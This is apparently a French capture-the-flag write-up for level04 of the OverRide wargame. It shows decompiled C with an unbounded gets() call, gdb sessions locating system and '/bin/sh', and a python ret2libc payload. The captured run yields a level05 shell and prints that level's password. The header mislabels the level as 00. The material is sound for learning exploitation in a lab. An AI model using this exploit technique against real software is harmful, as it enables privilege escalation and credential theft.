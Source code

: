 # **Level 00**

Code decompiler,

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int stat_loc; // [esp+1Ch] [ebp-9Ch] BYREF
  char s[128]; // [esp+20h] [ebp-98h] BYREF
  int v6; // [esp+A0h] [ebp-18h]
  int v7; // [esp+A4h] [ebp-14h]
  int v8; // [esp+A8h] [ebp-10h]
  __pid_t v9; // [esp+ACh] [ebp-Ch]

  v9 = fork();
  memset(s, 0, sizeof(s));
  v8 = 0;
  stat_loc = 0;
  if ( v9 )
  {
    do
    {
      wait(&stat_loc);
      v6 = stat_loc;
      if ( (stat_loc & 0x7F) == 0 || (v7 = stat_loc, (char)((stat_loc & 0x7F) + 1) >> 1 > 0) )
      {
        puts("child is exiting...");
        return 0;
      }
      v8 = ptrace(PTRACE_PEEKUSER, v9, 44, 0);
    }
    while ( v8 != 11 );
    puts("no exec() for you");
    kill(v9, 9);
  }
  else
  {
    prctl(1, 1);
    ptrace(PTRACE_TRACEME, 0, 0, 0);
    puts("Give me some shellcode, k");
    gets(s);
  }
  return 0;
}
```
On remaque en testant le code qe si on rentre dans notre input un `buffer` de `156` characteres, le `child` ne se `quitte pas correctement`,
Essayons donc de faire de nouveau un `Ret2libc` mais depuis le `child`.
Pour executer correctement le child dans gdb et pouvoir recuperer les differentes adresses que l'ont a besoin pour l'exploit,
nous devons utiliser l'option de gdb, `set follow-fork-mode child`
Puis de nouveau on doit recuperer les adress de system et "/bin/sh",
```
level04@OverRide:~$ gdb ./level04 
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/users/level04/level04...(no debugging symbols found)...done.
(gdb) set follow-fork-mode child
(gdb) b main
Breakpoint 1 at 0x80486cd
(gdb) run
Starting program: /home/users/level04/level04 

Breakpoint 1, 0x080486cd in main ()
(gdb) info func system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system
0xf7f48a50  svcerr_systemerr
(gdb) find __libc_start_main, +999999999, "/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```
Payload -> [156 char] [addr system] [4 char] [addr "/bin/sh"]
`python -c "print '\x90'*156 + '\xd0\xae\xe6\xf7' + '\xd0\xae\xe6\xf7' + '\xec\x97\xf8\xf7'" > /var/crash/file`
```
level04@OverRide:~$ python -c "print '\x90'*156 + '\xd0\xae\xe6\xf7' + 'AAAA' + '\xec\x97\xf8\xf7'" > /var/crash/file
level04@OverRide:~$ cat /var/crash/file - | ./level04 
Give me some shellcode, k
id
uid=1004(level04) gid=1004(level04) euid=1005(level05) egid=100(users) groups=1005(level05),100(users),1004(level04)
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
> ### NEXT : [Level 05](/level05/resources/README.md)
